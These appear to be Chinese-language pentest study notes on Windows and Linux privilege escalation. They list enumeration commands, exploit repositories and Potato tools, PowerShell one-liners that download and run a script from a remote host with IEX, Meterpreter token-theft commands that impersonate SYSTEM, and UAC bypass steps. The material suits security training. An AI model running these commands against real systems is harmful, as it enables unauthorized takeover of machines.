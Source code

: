 # **7月8日 内网提权**

### **什么是提权**

提权： 把低权限变为高权限

windows :  zhangsan  -> administrator -> system

linux : www-data  -> root 

### **提权的分类**

利用方式的不同：

本地提取：在一个低权限用户的前提下，通过漏洞提权至高权限用户

远程提权： 攻击者直接通过漏洞攻击获取最高权限用户

漏洞的不同：

操作系统提权：

windows：ms08067 ms1105

linux: dirty cow

应用程序提权：

mysql，mssql，IE，phpstudy

### **提权的思路**

提权的前提是目标系统存在漏洞或配置缺陷

- 基本信息收集

- 扫描系统、服务漏洞
- 寻找应用程序漏洞

## **windows ⭐️**

#### **收集信息 ：**

补丁信息 ： systeminfo

http://blog.neargle.com/win-powerup-exp-index/#

wmic qfe get Caption,Description,HotFixID,InstalledOn

杀毒软件：

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List

### 内核漏洞

windows 内核漏洞exp ： https://github.com/SecWiki/windows-kernel-exploits

##### **内核漏洞检测**

- powershell脚本 - Sherlock.ps1 ：

https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1

运行： 在cmd命令行中运行

powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1');Find-AllVulns

powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.111.77:8000/1.ps1');Find-AllVulns

- msf : post/multi/recon/local_exploit_suggester

(检测时要注意 ， meterpreter的位数必须要和靶机操作系统位数一致)

​        rottenpotato ：		https://github.com/foxglovesec/RottenPotato/blob/master/rottenpotato.exe

use incognito  #该模块用来窃取令牌、模仿令牌

list_tokens -u  #列举当前的令牌

execute -cH -f ./potato.exe  #执行exp

list_tokens -u  #查看令牌，有一个SYSTEM权限的模仿令牌

impersonate_token "NT AUTHORITY\\SYSTEM"执行偷取窃取令牌命令

- cs 

cna脚本拓展

Taowu ： https://github.com/pandasec888/taowu-cobalt-strike



**Origin Potato :**

https://github.com/foxglovesec/Potato

**RottenPotato & JuicyPotato:**

https://github.com/ohpe/juicy-potato

**Rogueotato**

https://github.com/antonioCoco/RoguePotato

**SweetPotato:**

https://github.com/CCob/SweetPotato

​                 ![img](..\img\内网渗透-提权\Qwxi2caXJXyMsENClyvCKQ.png)        

### **bypassuac**

uac是用户账户控制 ， 在windows vista 之后出现，用于限制敏感操作。 由于一般情况下，windows 默认账户 都是处于administratos 组中，所以绕过uac，即可获取system用户权限

- msf ： exploit/windows/local/bypassuac  

 ! msf bypassuac 之后获取到meterpreter 还需要进行getsystem才能获取system用户

​                 ![img](..\img\内网渗透-提权\mLBVaTpIf6bJuEJCw8I4Yg.pngw=1280&h=283.png)        

 ？ 在getsystem之后怎么回到administrators 组用户

​                 ![img](..\img\内网渗透-提权\ROXoYor-EZGYYhp2XGpU8A.png)        

- cs bypassuac

​                 ![img](..\img\内网渗透-提权\jb2wJl93KloOLJkFkbf8OA.png)        

​                 ![img](..\img\内网渗透-提权\TWKhqOIR5HQw4cGPhecHIA.png)        

 